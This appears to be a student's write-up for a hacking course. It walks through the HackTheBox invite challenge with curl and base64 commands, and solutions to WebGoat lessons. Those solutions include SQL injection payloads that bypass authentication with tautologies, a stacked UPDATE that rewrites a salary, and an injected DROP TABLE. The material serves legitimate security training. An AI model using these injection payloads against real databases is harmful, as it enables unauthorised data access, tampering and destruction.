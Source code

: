 # H1 - HackTheBox

Solutions to first week assignments.

## Table of Contents

* [a) Get invited to HackTheBox](#a-get-invited-to-HackTheBox)
* [b) Install WebGoat and login](#b-install-webgoat-and-login)
* [c) Solve WebGoat assignments](#c-solve-webgoat-assignments)
* [d) Install Kali Linux and test it out](#d-install-kali-linux-and-test-it-out)
* [References](#references)

---

## a) Get invited to HackTheBox

* opened developer console and found the first clue, that pointed me to search interesting Javascript file
* found a file pretty fast named inviteapi.min.js, that had an obfuscated Javascript function. I didn't try to solve the obfuscation and just tried the makeInviteCode function, which was the next clue. It guided me to make POST HTTP request to /api/invite/how/to/generate
* I did a POST HTTP request with curl to /api/invite/how/to/generate and received BASE64 encoded string

  ```shell
  curl -L -v -X POST www.hackthebox.eu/api/invite/how/to/generate
  ```

* I opened the encoded string like this and received the next clue

  ```shell
  echo "SW4gb3JkZXIgdG8gZ2VuZXJhdGUgdGhlIGludml0ZSBjb2RlLCBtYWtlIGEgUE9TVCByZXF1ZXN0IHRvIC9hcGkvaW52aXRlL2dlbmVyYXRl" | base64 -d
  ```

* clue was: "In order to generate the invite code, make a POST request to /api/invite/generate"

  ```shell
  curl -L -v -X POST www.hackthebox.eu/api/invite/generate
  ```

* call gave me another BASE64 encoded string, which I opened and it gave me the code to log in to HackTheBox

  ```shell
  echo "QVNLQ1ItTkNTRk0tR0RRQ0UtQklQUUQtTVlSVUI" | base64 -d
  ```

---

## b) Install WebGoat and login

I downloaded [WebGoat Docker image](https://hub.docker.com/r/webgoat/webgoat-8.0/), ran it and managed to log in.

---

## c) Solve WebGoat assignments

* HTTP Basics
  - The HTTP Basics assignment was quite easy. Just needed to open developer console and view the source code to see that they validated, that posted magic number was 55
* Developer tools
  - Developer tools opens in Opera(MacOS) with command + options + i keyboard shortcut
  - CTRL+L clears console in Opera's console
  - calling the webgoat.customjs.phoneHome() function in console printed me the required output with -1182196480 phone number
  - opening the network tab in developer console and sending the request shows a request called network, which had a header with networkNum named form data with value of 32.69182959869092
* CIA Triad
  - 1 - 3
  - 2 - 1
  - 3 - 4
  - 4 - 2
* A1 Injection (intro)

  - select Bobs department

    ```sql
    SELECT department FROM Employees WHERE first_name = 'Bob' and last_name = 'Franco';
    ```

  - update Tobi Barnett's department

    ```sql
    UPDATE employees SET department = 'Sales' WHERE userid IN (select userid from employees WHERE first_name = 'Tobi' and last_name = 'Barnett')
    ```

  - add column to table

    ```sql
    ALTER TABLE employees ADD phone varchar(20);
    ```

  - grant alter table to

    ```sql
    GRANT ALTER TABLE TO UnauthorizedUser
    ```

  - injection

    ```sql
    SELECT * FROM user_data WHERE first_name = 'John' and last_name = 'Smith' or '1' = '1'
    ```

  - numeric sql injection: use numeral instead of strings

    ```sql
    SELECT * From user_data WHERE Login_Count = 1 and userid = 1 or 1 = 1
    ```

  - confidentiality

    ```sql
    SELECT * FROM employees WHERE last_name = 'Smith' AND auth_tan = '1' OR '1' = '1';
    ```

  - integrity: close the auth_tan query and inject and update clause

    ```sql
    SELECT * FROM employees WHERE last_name = 'Smith' AND auth_tan = '"'; UPDATE employees SET salary = 100000 WHERE auth_tan = '"3SL99A"'
    ```

  - availability: close the select query and add a drop clause which uncomments the end of the select clause

    ```sql
    SELECT * FROM access_log where action = '%'; DROP TABLE access_log --%;
     ```

---

## d) Install Kali Linux and test it out

I created a Vagrant setup ([Vagrantfile](../Vagrantfile)), that sets up a development environment for me. It runs WebGoat in Docker and Kali Linux on VirtualBox using Vagrant.

I tried netcat to test if my local machine had port 53 open.

    nc -v -w 3 localhost 53

The port was closed as suspected: <i><b>localhost [127.0.0.1] 53 (domain) : Connection refused</i></b>. I wanted to scan the udp port as well to see what does it report.

    nc -v -w 3 -u localhost 53

And interestinly it reported, that the 53/udp port was open: <i><b>localhost [127.0.0.1] 53 (domain) open</i></b>. The port is for local DNS responses, so it should be open.

---

## References

* [terokarvinen.com, ict4tn027-3005](https://terokarvinen.com/2021/hakkerointi-kurssi-tunkeutumistestaus-ict4tn027-3005/)
* [WebGoat Docker image](https://hub.docker.com/r/webgoat/webgoat-8.0/)
* [My Vagrantfile](../Vagrantfile)
